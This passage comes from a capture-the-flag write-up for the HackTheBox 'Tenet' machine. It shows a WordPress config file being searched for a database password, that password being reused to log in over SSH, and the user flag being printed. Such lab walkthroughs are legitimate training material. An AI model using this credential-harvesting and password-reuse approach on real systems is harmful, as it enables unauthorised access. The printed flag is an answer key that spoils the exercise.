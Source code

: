 Let's try to search some info about ```neil``` user in ```/var/www/html```:
```console
$ grep -r "neil" .
./wordpress/wp-config.php:define( 'DB_USER', 'neil' );

```
By cat the file ```./wordpress/wp-config.php``` we can found the follow:
```php
/** MySQL database username */
define( 'DB_USER', 'neil' );

/** MySQL database password */
define( 'DB_PASSWORD', 'Opera2112' );
```

Which is the user password of ```neil```, Let's try to connect using ssh with those creds:
```console
┌─[evyatar@parrot]─[/hackthebox/Tenet]
└──╼ $ ssh neil@10.10.10.223
The authenticity of host '10.10.10.223 (10.10.10.223)' can't be established.
ECDSA key fingerprint is SHA256:WV3NcHaV7asDFwcTNcPZvBLb3MG6RbhW9hWBQqIDwlE.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.223' (ECDSA) to the list of known hosts.
neil@10.10.10.223's password: 
Welcome to Ubuntu 18.04.5 LTS (GNU/Linux 4.15.0-129-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Thu Apr  1 19:27:11 UTC 2021

  System load:  0.0                Processes:             184
  Usage of /:   15.4% of 22.51GB   Users logged in:       0
  Memory usage: 13%                IP address for ens160: 10.10.10.223
  Swap usage:   0%

  => There is 1 zombie process.


53 packages can be updated.
31 of these updates are security updates.
To see these additional updates run: apt list --upgradable


Last login: Thu Dec 17 10:59:51 2020 from 10.10.14.3
neil@tenet:~$ cat user.txt
13c6e6d45d0d32a61e979547b490d0de
```

And we get user flag ```13c6e6d45d0d32a61e979547b490d0de```.

### Root
